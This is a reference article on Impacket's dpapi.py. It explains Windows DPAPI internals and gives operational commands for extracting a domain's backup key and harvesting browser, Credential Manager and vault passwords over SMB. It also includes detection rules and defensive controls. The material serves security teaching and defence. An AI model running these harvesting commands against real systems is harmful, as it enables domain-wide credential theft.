

title: "dpapi.py"
script: "examples/dpapi.py"
category: "Credential Access"
status: "Published"
protocols:
  - DCE/RPC
  - MS-BKRP
  - SMB
ms_specs:
  - MS-BKRP
  - MS-RPCE
mitre_techniques:
  - T1555.003
  - T1555.004
  - T1552.001
  - T1003.004
  - T1552.002
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
  - offline
tags:
  - impacket
  - impacket/examples
  - category/credential_access
  - status/published
  - protocol/dpapi
  - protocol/bkrp
  - protocol/dcerpc
  - technique/dpapi_decryption
  - technique/master_key_extraction
  - technique/domain_backup_key
  - technique/chrome_credential_theft
  - technique/wifi_credential_theft
  - technique/saved_credential_theft
  - technique/credential_vault
  - mitre/T1555/003
  - mitre/T1555/004
  - mitre/T1552/001
  - mitre/T1003/004
  - mitre/T1552/002
aliases:
  - dpapi
  - impacket-dpapi


# dpapi.py

> **One line summary:** Offline DPAPI (Data Protection API) decryption toolkit with six subcommands that unwrap Windows' layered credential protection scheme by handling the full chain from a domain backup key extracted via the MS-BKRP RPC protocol, through per-user master keys derived from the user's password or the LSA DPAPI_SYSTEM secret, to the individual encrypted blobs that contain Chrome and Edge saved passwords, Credential Manager entries, Outlook profiles, Wi-Fi pre shared keys, RDP saved credentials, and essentially every cached secret on modern Windows, making it **the third major pillar of Linux-side credential extraction** alongside [`secretsdump.py`](secretsdump.md) for hive-based credentials and [`mimikatz.py`](mimikatz.md) for the remote mimikatz client.

| Field | Value |
|:---|:---|
| Script | `examples/dpapi.py` |
| Category | Credential Access |
| Status | Published |
| Primary protocols | DCE/RPC, MS-BKRP (for backup key retrieval), SMB (for transport) |
| Primary Microsoft specifications | `[MS-BKRP]`, `[MS-RPCE]` |
| MITRE ATT&CK techniques | T1555.003 Credentials from Password Stores: Credentials from Web Browsers, T1555.004 Windows Credential Manager, T1552.001 Credentials In Files, T1003.004 LSA Secrets, T1552.002 Credentials in Registry |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache (for `backupkeys`); offline for most other operations |
| First appearance in Impacket | Impacket 0.9.20 |
| Original author | Alberto Solino (`@agsolino`) |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`secretsdump.py`](secretsdump.md) for the LSA secrets extraction mechanism that produces the DPAPI_SYSTEM secret which is essential for decrypting SYSTEM-context DPAPI blobs.
- [`mimikatz.py`](mimikatz.md) for context on the alternative credential extraction approach.
- [`rpcdump.py`](../01_recon_and_enumeration/rpcdump.md) for DCE/RPC fundamentals (the `backupkeys` subcommand uses MS-BKRP over DCE/RPC).


## What it does

`dpapi.py` is an offline toolkit for decrypting DPAPI-protected data, with one online subcommand (`backupkeys`) that retrieves the domain backup key from a Domain Controller. The tool exposes six subcommands:

| Subcommand | Purpose |
|:---|:---|
| `backupkeys` | Retrieve the domain DPAPI backup key from a Domain Controller via MS-BKRP. |
| `masterkey` | Decrypt a user's master key file using a password, SID+password combination, domain backup key, or LSA DPAPI_SYSTEM secret. |
| `credential` | Decrypt a Credential Manager entry using a decrypted master key. |
| `vault` | Decrypt a Vault file (`.vcrd`/`.vpol`) using a decrypted master key. |
| `unprotect` | Generic `CryptUnprotectData` equivalent; decrypt arbitrary DPAPI blobs given a master key. |
| `credhist` | Parse CREDHIST files (the chain of previous master keys for password-change scenarios). |

The tool handles the full DPAPI decryption chain, which is layered:

1. **Domain backup key** (extracted once from a DC, reusable across all users in the domain).
2. **User master keys** (decrypted using the password, DPAPI_SYSTEM, or domain backup key).
3. **DPAPI blobs** (decrypted using the specific master key referenced in each blob's header).

For the attacker, this chain means: obtain the domain backup key once, then offline-decrypt every DPAPI-protected secret for every user in the domain, as long as the attacker has access to the relevant master key files and encrypted blobs. This is qualitatively different from LSASS-based credential extraction because:

- It works entirely offline against captured files. No live LSASS interaction needed.
- It covers credential types that do not live in LSASS (Chrome passwords, Credential Manager saved passwords, Wi-Fi keys).
- It provides long-term decryption capability: the backup key changes rarely, so one extraction yields decryption power for weeks or months.

The `dpapi.py` tool is therefore the foundation of several widely used Linux-side credential extraction tools, most notably **DonPAPI** which automates the full workflow of mass DPAPI extraction across a domain.


## Why it exists

DPAPI has been Windows's answer to "how do applications store secrets at rest" since Windows 2000. Before DPAPI, applications that needed to persist credentials (browsers, email clients, VPN software) had to invent their own encryption schemes, typically badly. DPAPI provides a standardized API: `CryptProtectData` to encrypt, `CryptUnprotectData` to decrypt, with the operating system managing the keys invisibly.

Under the hood, DPAPI derives keys from user credentials (for user-scope protection) or from machine secrets (for machine-scope protection). This means:

- Data encrypted by one user on one machine can only be decrypted by that user on that machine (normally).
- If the user changes their password, the master keys are re-encrypted with a derivative of the new password, using the CREDHIST chain to maintain access.
- The domain administrator has a backdoor: the domain DPAPI backup key, which can decrypt any user's master key in the domain.

For attackers, DPAPI is a treasure trove because so many applications use it. Chrome's saved passwords, Credential Manager entries, VPN client credentials, Outlook profiles, Wi-Fi pre shared keys, Remote Desktop saved credentials, and many third party applications all store their secrets via DPAPI. Cracking DPAPI once gives access to all of these.

Alberto Solino built `dpapi.py` to expose the full DPAPI decryption chain to Linux operators. Before this tool, Linux attackers would need to transfer files to a Windows system and run mimikatz's DPAPI modules. With `dpapi.py`, the entire workflow runs on Linux: grab the backup key via RPC, collect master key files and encrypted blobs via SMB, decrypt everything offline.

The tool's structure closely mirrors the mental model of DPAPI: separate subcommands for each layer of the chain. This is both a strength (operators can work on specific parts) and a weakness (there is no single "extract everything" command; operators must orchestrate the sequence themselves). Tools like DonPAPI wrap `dpapi.py` with automation to address this.


## The protocol theory

DPAPI is not a network protocol but a local data protection scheme. Understanding its architecture is essential because `dpapi.py` operates at multiple layers of that architecture. The one network protocol involved is MS-BKRP for the domain backup key retrieval.

### The DPAPI blob structure

Every piece of DPAPI-encrypted data is wrapped in a blob with this general structure:

| Field | Purpose |
|:---|:---|
| Version | DPAPI blob format version. |
| Provider GUID | Identifies the cryptographic provider. |
| Master Key GUID | Which master key was used to encrypt this blob. **Critical for decryption lookup.** |
| Description | Optional description string (sometimes contains useful hints about the blob's purpose). |
| Algorithm identifiers | Which cipher and hash algorithms were used. |
| Salt | Random salt for key derivation. |
| HMAC | Integrity check. |
| Encrypted data | The actual payload. |

To decrypt a blob, you need the master key identified by the Master Key GUID. That master key is typically not the blob itself but in a separate file at a well known location.

### Master key files

User master keys are stored at `%APPDATA%\Microsoft\Protect\<SID>\<GUID>`. The SID is the user's Security Identifier; the GUID identifies the specific master key. Users typically have multiple master keys over time (a new one is generated periodically or after password changes).

A file named `Preferred` in the same directory indicates which master key is currently in use. Its contents are the GUID of the current master key plus a timestamp for when the next rotation should occur.

Machine master keys are stored at `C:\Windows\System32\Microsoft\Protect\S-1-5-18\User\<GUID>` (where `S-1-5-18` is the well known SID for `SYSTEM`). Access to this directory requires SYSTEM privileges.

### The master key file format

Each master key file has a structured format (parsed by the `MasterKeyFile` class in Impacket's `dpapi` module):

| Field | Purpose |
|:---|:---|
| Version | File format version. |
| GUID | The master key's identifier. |
| Flags | Control flags. |
| Policy | Policy settings. |
| MasterKeyLen | Length of the primary master key blob. |
| BackupKeyLen | Length of the backup key blob. |
| CredHistLen | Length of the CREDHIST reference. |
| DomainKeyLen | Length of the domain backup blob (zero for machine master keys). |

After the header come the actual master key blobs. Four possible blobs can be present:

- **MasterKey**: encrypted with a key derived from the user's password and SID.
- **BackupKey**: a secondary copy, sometimes encrypted with the same key, sometimes with a different one.
- **CredHist**: points to the previous master key, enabling the CREDHIST chain after password changes.
- **DomainKey**: encrypted with the domain backup key's public key. The Domain Controller can decrypt this with its private key.

The DomainKey blob is the attacker's backdoor: if you have the domain private backup key, you can decrypt the master key without needing the user's password.

### Key derivation from user password

For the MasterKey blob, Windows derives a 512 bit key from the user's password and SID. The derivation algorithm (simplified):

```text
pwdHash = SHA1(password.UTF16LE)
pwdHash_NT = NTLM(password.UTF16LE)  # for some paths
key1 = HMAC_SHA1(pwdHash, SID.UTF16LE + \x00)
key2 = HMAC_SHA1(pwdHash_NT, SID.UTF16LE + \x00)
```

Both keys are tried; one will decrypt successfully. The SID is prepended to tie the derivation to a specific user account, preventing cross user attacks.

`dpapi.py masterkey` with `-password <pass>` and `-sid <sid>` performs exactly this derivation to attempt master key decryption.

### Domain backup keys and MS-BKRP

In domain environments, Windows provides the domain backup key mechanism to prevent data loss when users change their passwords or are reprovisioned. The mechanism:

1. The first Domain Controller in a domain generates a 2048 bit RSA keypair at domain creation.
2. The public key is distributed via MS-BKRP (BackupKey Remote Protocol) to any client that asks.
3. When a user generates a master key, Windows includes a DomainKey blob in the master key file: the master key encrypted with the domain public key.
4. The private key is stored on Domain Controllers and protected by DPAPI with the SYSTEM machine key.
5. When a user needs master key recovery, Windows queries the DC for the private key via MS-BKRP.

For attackers with domain admin privileges, step 5 is the gift: request the private backup key once, and you can decrypt every DPAPI master key in the domain. The `dpapi.py backupkeys` subcommand does exactly this.

The MS-BKRP interface is identified by UUID `3dde7c30-165d-11d1-ab8f-00805f14db40`. It exposes a single RPC method (`BackuprKey`) that returns the backup key material wrapped in a specific format. The returned key is a PVK (Private Key) file that can be used with `-pvk` in other `dpapi.py` commands.

### The DPAPI_SYSTEM secret

Machine master keys (for SYSTEM-scope DPAPI) are not encrypted with user passwords (SYSTEM has no password in the traditional sense). Instead, Windows uses a machine-specific secret called DPAPI_SYSTEM, stored as an LSA secret in the registry's SECURITY hive.

DPAPI_SYSTEM consists of two 20 byte keys:

- **MachineKey**: used to encrypt master keys for the SYSTEM account.
- **UserKey**: used to encrypt master keys for service accounts running on the machine.

The secret is extracted by parsing the SECURITY hive, which means **[`secretsdump.py`](secretsdump.md) is the tool that produces DPAPI_SYSTEM**. The `dpapi.py` tool uses DPAPI_SYSTEM (provided as `-key` input) to decrypt machine master keys.

This is the connection between `secretsdump.py` and `dpapi.py`: run `secretsdump.py` to get LSA secrets including DPAPI_SYSTEM, then use that to decrypt machine master keys, then use those to decrypt SYSTEM-scope DPAPI blobs.

### CREDHIST chain

When a user changes their password, Windows does not re-encrypt all master keys with the new password-derived key. Instead, it builds a CREDHIST chain: each master key points to the previous one, and a parallel CREDHIST file stores the old password hashes so Windows can still decrypt old master keys when needed.

For attackers, this means:

- Finding a current password lets you decrypt the current master key.
- The CREDHIST chain lets you walk backwards through older master keys.
- Older master keys may unlock older DPAPI blobs that are still in use (Chrome saved passwords rarely re-encrypt themselves; they retain their original master key GUID even after the user changes their password).

The `dpapi.py credhist` subcommand parses CREDHIST files to enumerate the chain.

### Vault files

Credential Manager stores some credentials in "vault" files separate from the `.Credentials` files in the Credentials directory. Vaults have three components:

- **Policy file** (`.vpol`): contains vault-specific encryption keys, itself DPAPI-encrypted.
- **Credential file** (`.vcrd`): contains the credential, encrypted with the vault's own keys.
- **Schema file** (`.vsch`): defines the credential format.

To decrypt a vault credential:

1. Decrypt the `.vpol` policy with DPAPI (needs user master key).
2. Extract the vault's own AES keys from the decrypted policy.
3. Decrypt the `.vcrd` credential with the vault's AES keys.
4. Parse the decrypted blob according to the known schema (web credential, generic credential, etc.).

`dpapi.py vault` automates this three-step workflow.

Common vault contents: Internet Explorer/Edge saved passwords (legacy, pre-Credential Manager migration), Remote Desktop saved credentials, some VPN client credentials.


## How the tool works internally

The script is split across six subcommands, each with its own code path. The common flow:

1. **Argument parsing.** Subcommand dispatch to the corresponding handler.

2. **File reading.** For offline subcommands, read the input file (master key file, credential file, vault files).

3. **Parsing.** Use the structures from `impacket.dpapi`:
    - `MasterKeyFile` for master key files.
    - `CredentialFile`, `CREDENTIAL_BLOB` for credentials.
    - `VAULT_VCRD`, `VAULT_VPOL`, `VAULT_KNOWN_SCHEMAS` for vaults.
    - `DPAPI_BLOB` for generic DPAPI blobs.
    - `CREDHIST_FILE` for CREDHIST parsing.
    - `PVK_FILE_HDR`, `PRIVATE_KEY_BLOB` for PVK domain backup keys.

4. **Decryption dispatch.** Based on which decryption key was provided:
    - `-password <pass>` + `-sid <sid>`: user password-derived key.
    - `-pvk <path>`: domain backup private key (PVK format).
    - `-key <hex>`: directly provided symmetric key.
    - `-system` + `-security`: parse LSA secrets from hives to get DPAPI_SYSTEM.

5. **Decryption.** Apply the appropriate cryptographic operations:
    - For master key decryption: derive keys, attempt multiple combinations, verify HMAC.
    - For blob decryption: use the decrypted master key as the AES/3DES key, decrypt the blob payload.

6. **Output.** Print decrypted contents, typically as both hex and (if text-like) ASCII.

The `backupkeys` subcommand is the only one with network activity:

1. Establish SMB session with the DC using specified credentials.
2. Open `\protected_storage` named pipe.
3. Bind to MS-BKRP interface UUID.
4. Call `BackuprKey` with the appropriate subfunction (BACKUPKEY_RETRIEVE_BACKUP_KEY_GUID to get the GUID, then BACKUPKEY_RESTORE_GUID to retrieve the actual key material).
5. Parse the returned blob; optionally save to disk as a PVK file.


## Authentication options

Only the `backupkeys` subcommand requires authentication (it talks to a DC). All other subcommands operate on files already in hand.

### backupkeys authentication

Standard four-mode pattern:

```bash
# Password
dpapi.py backupkeys -t CORP.LOCAL/admin:'P@ss'@10.0.0.10 --export

# Hash
dpapi.py backupkeys -t CORP.LOCAL/admin@10.0.0.10 -hashes :<nthash> --export

# Kerberos ccache
export KRB5CCNAME=admin.ccache
dpapi.py backupkeys -t CORP.LOCAL/admin@10.0.0.10 -k -no-pass --export

# AES key
dpapi.py backupkeys -t CORP.LOCAL/admin@10.0.0.10 -aesKey <hex> -k -no-pass --export
```

### Minimum required privileges

- **`backupkeys`:** Domain Admin (or equivalent). Only DAs can call `BackuprKey` and receive the private key. The `BACKUPKEY_BACKUP_GUID` subfunction is available to any authenticated user but returns only the public key; the private key requires DA.
- **All other subcommands:** no authentication. Operate on files provided as input.

For the complete workflow, the attacker typically needs:

1. Domain Admin (temporarily) to extract the backup key once.
2. Local admin on the target host to collect master key files and credential files via SMB.

Once the backup key and the files are in hand, the entire subsequent decryption workflow is offline.


## Practical usage

### Extract the domain backup key

```bash
dpapi.py backupkeys -t CORP.LOCAL/admin:'P@ss'@10.0.0.10 --export
```

Produces output like:

```text
[*] Backup key exported to 'key_GUID.pvk'
```

The `.pvk` file is the PKCS certificate-wrapped private RSA key. Save it; this is the master key for decrypting everything. In real engagements this is an important artifact and should be kept in secure storage.

### Retrieve a user's master key files via SMB

```bash
smbclient.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 <<EOF
use C$
cd Users\alice\AppData\Roaming\Microsoft\Protect\S-1-5-21-XXX
get *
EOF
```

Retrieves all master keys from the user's profile directory. The exact path depends on the username and the user's SID.

### Decrypt a master key using the domain backup key

```bash
dpapi.py masterkey -file ./alice_masterkey_GUID -pvk ./key_GUID.pvk
```

Produces:

```text
[MASTERKEYFILE]
Version : 2 (2)
Guid : 7eec2875-f02f-432e-a5e4-3e4d3479f0d9
...
Decrypted key with DomainKey
Decrypted key: 0x1e504fbe22c77e6...
```

The decrypted key is what unlocks any DPAPI blob encrypted with this master key (identified by the GUID).

### Decrypt a master key using the user's password

```bash
dpapi.py masterkey -file ./alice_masterkey_GUID \
  -password 'alice_password' \
  -sid S-1-5-21-XXX-YYY-ZZZ-1105
```

Works when the password is known but the domain backup key is not. The SID must be the user's SID (embedded in the master key file path, or obtainable via `getADUsers.py` or `lookupsid.py`).

### Decrypt a Chrome saved password

The workflow:

```bash
# 1. Retrieve Chrome's Login Data SQLite database via SMB
smbclient.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 <<EOF
use C$
cd "Users\alice\AppData\Local\Google\Chrome\User Data\Default"
get "Login Data"
EOF

# 2. Open the SQLite file
sqlite3 "Login Data"
sqlite> SELECT origin_url, username_value, password_value FROM logins;

# The password_value column contains DPAPI blobs. Extract and save each blob:
sqlite> .output chrome_pass_1.bin
sqlite> SELECT password_value FROM logins WHERE origin_url LIKE '%example%';
sqlite> .quit

# 3. Also retrieve Chrome's Local State file (contains the encrypted master key)
smbclient.py ... get "Users\alice\AppData\Local\Google\Chrome\User Data\Local State"

# 4. The Local State has a base64 encoded DPAPI-wrapped AES key under os_crypt.encrypted_key.
# Decode and decrypt it with dpapi.py (the decrypted AES key is then used to decrypt
# the Chrome-specific AES-GCM wrapping on the actual password blobs).
# This chain requires additional scripting; tools like DonPAPI automate it.
```

Chrome's password protection has two layers: Chrome-specific AES-GCM encryption, using a key that is itself DPAPI-encrypted and stored in Local State. The outer layer requires `dpapi.py`; the inner layer requires custom parsing. Specialized tools like `SharpChrome` or `DonPAPI` handle both layers in one step.

### Decrypt a Credential Manager credential

```bash
# Retrieve from the user's profile:
#   %APPDATA%\Microsoft\Credentials\<file>
#   %LOCALAPPDATA%\Microsoft\Credentials\<file>

dpapi.py credential -file ./credential_blob -key <decrypted_masterkey>
```

Produces:

```text
[CREDENTIAL]
Target: Domain:target=server.corp.local
Username: alice
Password: SuperSecret!
```

The credential file references a master key GUID; the `-key` must be the decrypted master key matching that GUID.

### Decrypt a Vault credential

```bash
# Vault location: %LOCALAPPDATA%\Microsoft\Vault\<guid>\

dpapi.py vault -vpol ./Policy.vpol -vcrd ./CredentialFile.vcrd -key <decrypted_masterkey>
```

The tool decrypts the policy file with DPAPI, extracts the vault keys, decrypts the credential file with those keys, and parses the result according to the schema.

### Decrypt a generic DPAPI blob (unprotect subcommand)

```bash
dpapi.py unprotect -file ./dpapi_blob -key <decrypted_masterkey>
```

Equivalent to calling `CryptUnprotectData`. Works for any DPAPI blob given the correct master key.

### Parse CREDHIST (password change chain)

```bash
dpapi.py credhist -file ./CREDHIST -password 'current_password'
```

Walks the CREDHIST chain, showing the NTLM and SHA1 hashes of previous passwords. Each entry in the chain can decrypt older master keys.

### The full workflow for DPAPI harvesting

```bash
# 1. Extract domain backup key (requires DA, one time per domain)
dpapi.py backupkeys -t CORP.LOCAL/da_user:'DaPass'@dc01.corp.local --export

# 2. For each target host where you have local admin, retrieve:
#    a. All user profiles' Protect\<SID>\ directories (master keys)
#    b. All user profiles' Credentials\ directories (credential blobs)
#    c. Chrome Login Data and Local State for each user
#    d. %LOCALAPPDATA%\Microsoft\Vault\ for each user
#    e. C:\Windows\System32\Microsoft\Protect\S-1-5-18\User\ (machine master keys)
#    f. SECURITY hive for DPAPI_SYSTEM (via secretsdump.py or reg.py)

# 3. For each master key file, decrypt:
for mk in collected/alice/masterkeys/*; do
    dpapi.py masterkey -file "$mk" -pvk key_GUID.pvk
done
# Save decrypted master keys for reference.

# 4. For each credential blob, find the matching master key GUID and decrypt:
for cred in collected/alice/credentials/*; do
    MK_GUID=$(get_mk_guid_from_blob "$cred")
    dpapi.py credential -file "$cred" -key "${MK_GUID_to_key[$MK_GUID]}"
done

# 5. Parse Chrome, vaults, and other specific stores using appropriate tools.
```

In practice, nobody does this manually. **DonPAPI** (https://github.com/login-securite/DonPAPI) automates the entire workflow across a domain, producing a structured dump of all decrypted credentials. DonPAPI uses `impacket.dpapi` under the hood.

### Key flags

| Subcommand | Flag | Meaning |
|:---|:---||
| `backupkeys` | `-t <target>` | Target DC with credentials. |
| `backupkeys` | `--export` | Export keys to file. |
| `masterkey` | `-file <path>` | Master key file. |
| `masterkey` | `-pvk <path>` | Domain backup key PVK file. |
| `masterkey` | `-password <pass>` | User's password. |
| `masterkey` | `-sid <sid>` | User's SID. |
| `masterkey` | `-key <hex>` | Direct key to use. |
| `masterkey` | `-system`, `-security` | SYSTEM and SECURITY hives (for DPAPI_SYSTEM derivation). |
| `credential` | `-file <path>` | Credential blob file. |
| `credential` | `-key <hex>` | Decrypted master key. |
| `vault` | `-vpol <path>` | Vault policy file. |
| `vault` | `-vcrd <path>` | Vault credential file. |
| `vault` | `-key <hex>` | Decrypted master key. |
| `unprotect` | `-file <path>` | DPAPI blob file. |
| `unprotect` | `-key <hex>` | Decrypted master key. |
| `credhist` | `-file <path>` | CREDHIST file. |
| `credhist` | `-password <pass>` | Password for first entry decryption. |


## What it looks like on the wire

Only the `backupkeys` subcommand produces network traffic.

### MS-BKRP session

- TCP to port 445.
- SMB session setup with the specified credentials.
- Tree connect to `IPC$`.
- Open named pipe `\pipe\protected_storage`.
- DCE/RPC bind to MS-BKRP interface UUID `3dde7c30-165d-11d1-ab8f-00805f14db40`.
- Call `BackuprKey` with subfunction `BACKUPKEY_RETRIEVE_BACKUP_KEY_GUID` to get the current backup key GUID.
- Call `BackuprKey` with subfunction `BACKUPKEY_RESTORE_GUID` to retrieve the actual private key material.
- The returned blob is encrypted with the caller's session key for transport.
- Close the pipe, disconnect SMB.

### Wireshark filters

```text
dcerpc.if_id == 3dde7c30-165d-11d1-ab8f-00805f14db40   # MS-BKRP
smb2.filename contains "protected_storage"             # the named pipe
tcp.port == 445                                         # SMB transport
```

The MS-BKRP interface is highly specific: its only legitimate use is Windows's own DPAPI backup key retrieval during normal operations (rare). Any MS-BKRP traffic from non-DC sources is anomalous and worth investigating.

The other subcommands (master key decryption, credential decryption, vault decryption, etc.) generate zero network traffic. They operate on local files on the attacker's machine.


## What it looks like in logs

### Domain Controller logs during backupkeys

When `dpapi.py backupkeys` calls the DC, the operation leaves traces:

**Event 4662: An operation was performed on an object.** If Directory Service auditing is configured to track LSA access, the RPC call appears as object access with the LSA-related properties.

**Event 5145: A network share object was checked.** The `\protected_storage` pipe access may generate this event.

**Event 4624: An account was successfully logged on.** Standard logon event on the DC for the RPC authentication.

### No target-side traces for offline operations

The master key file access, credential file access, and vault file access from `dpapi.py` happen on the attacker's machine, not on any Windows target. No Windows logs are generated for the decryption itself.

What does generate target-side traces is the **file retrieval step**: copying master key files and credential files from the target requires SMB access, which leaves typical SMB access logs (4624 for the authentication, 5145 for the share access). See the [`smbclient.py`](../05_smb_tools/smbclient.md) article for detection of that activity.

### Starter Sigma rules

```yaml
title: MS-BKRP Backup Key Retrieval
logsource:
  category: network
detection:
  selection:
    rpc_uuid: '3dde7c30-165d-11d1-ab8f-00805f14db40'
  filter_dc_to_dc:
    SourceIP: '<DC IP ranges>'
  condition: selection and not filter_dc_to_dc
level: critical
```

Requires DCE/RPC-aware network IDS (Zeek, Suricata). Any MS-BKRP call from a non-DC source is diagnostic.

```yaml
title: Sensitive DPAPI Master Key File Access via SMB
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5145
    ShareName|contains: 'C$'
    RelativeTargetName|contains: 'AppData\Roaming\Microsoft\Protect\'
  condition: selection
level: medium
```

Catches SMB access to user profile master key directories. Legitimate applications rarely access other users' master key files remotely.

```yaml
title: Chrome Login Data File Access via SMB
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5145
    ShareName|contains: 'C$'
    RelativeTargetName|contains:
      - 'Chrome\User Data\Default\Login Data'
      - 'Chrome\User Data\Default\Local State'
  condition: selection
level: high
```

High fidelity. Normal use of Chrome does not produce these events via SMB; remote access to these files essentially means someone is after Chrome credentials.


## Detection and defense

### Detection opportunities

**MS-BKRP traffic from non-DC sources.** Diagnostic. Network-level detection with DCE/RPC UUID inspection.

**SMB access to master key directories.** `\AppData\Roaming\Microsoft\Protect\` access via network share is a high-confidence signal. Legitimate remote admin tools rarely touch this path.

**SMB access to Chrome Login Data and similar sensitive files.** Browser credential stores accessed remotely are essentially diagnostic of credential theft.

**Anomalous Domain Admin activity.** A DA extracting domain backup keys is unusual; if DA authentications are baselined and alerted on, the backup key extraction fits the general anomaly detection pattern.

**Volume-based detection.** DonPAPI and similar mass-harvesting tools retrieve many files in short order. Rate-based rules on SMB file access to sensitive paths catch the volume signal.

### Preventive controls

- **Domain Admin tier separation.** DPAPI backup key extraction requires DA. Tight DA account hygiene (tier 0 only, MFA, JIT access) makes the initial compromise harder.
- **Credential Guard.** Protects LSA secrets including DPAPI_SYSTEM. Limits the machine-key decryption path.
- **Chrome Enterprise policies.** Can disable saved passwords in the browser (`PasswordManagerEnabled=0`). Removes the Chrome attack surface entirely.
- **Disable stored credentials in Credential Manager for specific scenarios.** Group Policy can prevent users from saving RDP credentials, for instance.
- **Block SMB access to AppData paths.** File Server Resource Manager or equivalent can restrict SMB read access to `AppData` subdirectories on workstations and servers.
- **Monitor domain backup key rotation.** The backup key is stable. If you rotate it (which is possible but rarely done), previously extracted backup keys become useless for newer master keys.
- **Limit local admin distribution.** DPAPI harvesting typically requires local admin on the target to read other users' profiles. LAPS, tiered admin models, and PAM products reduce this attack surface.
- **Sysmon monitoring.** Specific Sysmon configurations can detect mass file access patterns typical of DonPAPI and similar tools.


## Related tools and attack chains

`dpapi.py` completes the Credential Access category at 3 of 3 articles.

### Related Impacket tools

- [`secretsdump.py`](secretsdump.md) extracts LSA secrets including DPAPI_SYSTEM. The two tools are complementary: secretsdump provides the machine DPAPI keys, dpapi.py uses them to decrypt blobs.
- [`mimikatz.py`](mimikatz.md) provides the alternative DPAPI functionality via remote mimikatz's `dpapi::` module set. Offline dpapi.py is usually preferred.
- [`smbclient.py`](../05_smb_tools/smbclient.md) is the typical transport for retrieving DPAPI files from targets.
- [`reg.py`](../08_remote_system_interaction/reg.md) extracts the SECURITY hive needed for DPAPI_SYSTEM.

### External tools

- **DonPAPI** at `https://github.com/login-securite/DonPAPI`. The canonical automation tool for mass DPAPI extraction across a domain. Uses `impacket.dpapi` under the hood. For operational use at scale, DonPAPI is what operators actually run; they touch `dpapi.py` directly only for edge cases.
- **SharpDPAPI** at `https://github.com/GhostPack/SharpDPAPI`. C# implementation for Windows-based operators. Covers the same functionality.
- **SharpChrome** at `https://github.com/GhostPack/SharpChrome`. Chrome-specific DPAPI decryption with the Chrome layer handled.
- **mimikatz DPAPI modules** (`dpapi::masterkey`, `dpapi::credential`, etc.). The Windows-side reference implementation.
- **dpapilab** and **dpapick** (Python libraries). Alternative Python implementations.

### The full DPAPI attack chain



The diagram shows why DPAPI harvesting is so powerful: one domain admin compromise plus local admin on target hosts yields every DPAPI-protected secret for every user across the entire domain. This includes credential types that mimikatz and secretsdump do not cover.

### Why DPAPI harvesting matters for modern attacks

Modern Windows environments have moved toward DPAPI for credential storage:

- **Cached credentials** are still in LSA secrets (secretsdump territory), but more applications use DPAPI for their own storage.
- **Browser credentials** (Chrome, Edge) are DPAPI-protected. Users save passwords to browsers; those passwords become accessible via DPAPI.
- **Cloud authentication tokens** (OneDrive, Teams, Outlook) are often DPAPI-protected.
- **Wi-Fi pre shared keys** are stored in DPAPI-protected files. Recovering them from a compromised laptop gives network access to the user's home or corporate Wi-Fi.
- **VPN credentials** are DPAPI-protected for many enterprise VPN clients.
- **RDP saved credentials** are DPAPI-protected.

A domain compromise that historically extracted NTLM hashes now also extracts cleartext passwords for every saved credential across the domain. This is qualitatively different and arguably more damaging for defense: NTLM hashes can be rotated, but saved passwords in browsers often persist for years.


## Further reading

- **`[MS-BKRP]`: BackupKey Remote Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-bkrp/`. The authoritative specification for the domain backup key retrieval interface.
- **Passcape "DPAPI master key" documentation** at `https://www.passcape.com/windows_password_recovery_dpapi_master_key`. Deep technical description of master key file format.
- **Passcape "Vault Explorer" documentation** at `https://www.passcape.com/windows_password_recovery_vault_explorer`. Deep technical description of vault file format.
- **Microsoft "Data Protection API"** at `https://learn.microsoft.com/en-us/windows/win32/api/dpapi/`. Official API documentation.
- **Benjamin Delpy DPAPI research** on the mimikatz blog at `https://blog.gentilkiwi.com/`. The original reverse-engineering work that underlies most DPAPI tooling.
- **Tim Medin SANS "DPAPI: The Missing Manual"** and related talks. Practical DPAPI offense from a pentester's perspective.
- **DonPAPI README and documentation** at `https://github.com/login-securite/DonPAPI`. Practical workflow automation.
- **Ghostpack SharpDPAPI and SharpChrome documentation.** The C# implementations with clear code commentary.
- **The Hacker Recipes "DPAPI secrets"** at `https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets`. Updated practical guide.
- **MITRE ATT&CK T1555.003** at `https://attack.mitre.org/techniques/T1555/003/`. Credentials from Web Browsers (the primary target of DPAPI harvesting).
- **MITRE ATT&CK T1555.004** at `https://attack.mitre.org/techniques/T1555/004/`. Windows Credential Manager.

